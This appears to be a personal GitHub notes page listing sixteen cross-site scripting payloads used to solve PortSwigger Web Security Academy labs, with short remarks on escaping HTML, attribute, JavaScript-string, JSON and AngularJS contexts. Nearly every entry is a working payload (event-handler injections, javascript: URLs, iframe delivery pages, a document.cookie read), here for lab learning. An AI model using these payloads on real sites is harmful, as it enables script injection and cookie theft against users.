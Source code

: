 [A](https://www.youtube.com/watch?v=W-H6lyL9DMQ&list=PLfnsjJ3BcOKw_tRI88eRQS9D1zHaKA0Dr)


# xss


==========================================

http://example.com/swagerUI/      SERARCH for swagerui xss payload

==========================================


------------------------------- portswigger laps ----------------------------------

# (1)         

```html
 <h1> 'test' </h1>
       test' </h1>   <script> alert() </script>  <!--
```

-----------------------------------------------------------------------------------
             
# (2)          

### in comments 

```html
<img onload=alert()>
```
-----------------------------------------------------------------------------------

# (3)       

 > ### the 'test >' found it but encoded in html so what is the solution:
   * > i found js code that take query form search and put it in src of img so

     > i put payload in this image


```html
 <img src="query">
             <img src="query" onload=alert()>

             <img src="/resources/images/tracker.gif?searchTerms='+query+'">
                                                                    hello'" onload='alert()'> 
```
            
------------------------------------------------------------------------------------

# (4)         
### the test not in sourse code but there is JS dom code make query in url   

```url
/?search=test
/?search=javascript:confirm()      not work 
/?search=<svg onload=alert()>
```
             
------------------------------------------------------------------------------------

# (5)         
### if i try to submit feedback i notice that in URL 

```url
/feedback?returnPath=/
/feedback?returnPath=javascript:alert(document.cookie)
```
     
------------------------------------------------------------------------------------

# (6) 

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
------------------------------------------------------------------------------------
 
# (7)        
### when write test i found it appear in sourse code in two places 

```html
<h1>0 search results for 'test'</h1>
<input type=text placeholder='Search the blog...' name=search value="test">
```
###  i try

```html
test' <img src=x onerror=alert()>        <!-- not work -->
test' <img src=x onclick=alert()>        <!-- not work -->
```
### i notice that the ``<>`` are encoded in source code so i can't use them in ``<input>`` so i try:

```html
test"onmouseover="alert(1)"
```
              
------------------------------------------------------------------------------------

# (8)          
### in website input field 

```html
javascript:alert()
```
             
------------------------------------------------------------------------------------

# (9)         
### in soruse code i found 

```html
<script>
     var searchTerms = 'test';
```

```html
                       'test' alert();     -- not work --
                       'test'; alert();//';  -- solved --
```
             
                                          
------------------------------------------------------------------------------------

# (10)         

```url
product?productId=1&storeId="></select><img src=1 onerror=alert(1)>
```

------------------------------------------------------------------------------------

(11)  DOM XSS in AngularJS expression
 
form portswigger sheet cheat i found

         {{constructor.constructor('alert(1)')()}} 


-------------------------------------------------------------------------------------

# (12)  

```js
\"-alert()}//
```

> ``\``   ==> to close Get / in request

> ``"``   ==> to close the value of json
 
> ``}//`` ==> close json 

------------------------------------------------------------------------------------

# (13)   

```html
<> <img src=x onerror=alert()>
```

-----------------------------------------------------------------------------------

# (14)  

```html
<iframe src="https://0aaf0027041a761d816bed2a006f0054.web-security-academy.net
/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

-----------------------------------------------------------------------------------

# (15) 

```
 <script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```



------------------------------------------------------------------------------------

# (16)

 <svg><animatetransform onbegin=alert(1) attributeName=transform>


-------------------------------------------------------------------------------------

